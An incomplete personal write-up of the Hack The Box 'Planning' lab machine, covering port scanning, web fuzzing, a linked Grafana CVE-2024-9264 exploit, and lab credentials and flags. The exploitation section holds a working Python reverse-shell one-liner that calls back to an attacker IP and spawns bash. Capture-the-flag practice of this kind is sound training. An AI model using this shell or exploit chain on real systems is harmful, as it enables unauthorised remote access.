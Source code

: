 ```yaml
---
file_created: 06 Sep 2025 17:31
title: Planning
difficulty: Easy
difficult_sort: 1
points: 30
os: Linux
target_ip: 10.10.11.68
platform: Hack The Box
category: B2R
box_status: Retired
url: https://app.hackthebox.com/machines/Planning
user_flag: true
root_flag: true
completed: false
date_finish:
tags: htb/machines
---
```

# Resolution summary
![500x200](<./attachments/Planning-10.png>)

>[!summary]
>- Step 1
>- Step 2

![](<./attachments/Planning-2.png>)
>admin:0D5oT70Fq13EvB5r
## Tutorial
- [medium](https://medium.com/@ahmedshaban7000/htb-planning-write-up-c154b9577698)
- [mateogal.com](https://mateogal.com/posts/planning/)
## Improved skills
- Skill 1
- Skill 2
## Used tools
- nmap
- gobuster
---
# Information Gathering

## Scanned all TCP ports:
- `export IP="10.10.11.68"`
```bash
rustscan -a $IP -r 1-65535 -t 10000 --ulimit 5000

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

## Enumerated open TCP ports:

```bash
nmap -Pn -p 22,80 $IP -sCTV -vv -oN scans/nmap-open.txt

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMv/TbRhuPIAz+BOq4x+61TDVtlp0CfnTA2y6mk03/g2CffQmx8EL/uYKHNYNdnkO7MO3DXpUbQGq1k2H6mP6Fg=
|   256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpJkWOBF3N5HVlTJhPDWhOeW+p9G7f2E9JnYIhKs6R0
80/tcp open  http    syn-ack nginx 1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 80 - HTTP (Apache)
- needs to redirect to `http://planning.htb/`
- http-server-header: `nginx/1.24.0 (Ubuntu)`
```sh
echo "$IP planning.htb" | sudo tee -a /etc/hosts
```

![](<./attachments/Planning-1.png>)
```sh
ffuf -u http://planning.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -t 50
```
- sub-directory enumeration
```sh

```
![](<./attachments/Planning-3.png>)

---
# Exploitation
- CVE-2024-9264 [repo](https://github-com.translate.goog/z3k0sec/CVE-2024-9264-RCE-Exploit?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en)
```
ssh enzo@planning.htb -L 8000:127.0.0.1:8000
```
## SQL Injection
![](<./attachments/Planning-4.png>)

```python
python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.80',9443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```
![](<./attachments/Planning-9.png>)


# Lateral Movement to xxx

## Local enumeration
![](<./attachments/Planning-5.png>)

![](<./attachments/Planning-6.png>)
## Lateral movement vector

---

# Privilege Escalation to xxx

## Local enumeration


## Privilege Escalation vector


---

# Trophy

## User Flag
```txt
d674747b772c8d92405db80078d985af
```
## Root Flag
```txt
0690a9884b5a422f0388d1b0ababc058
```
## **/etc/shadow**

```bash

```

---
# Proof
![](<./attachments/Planning-8.png>)
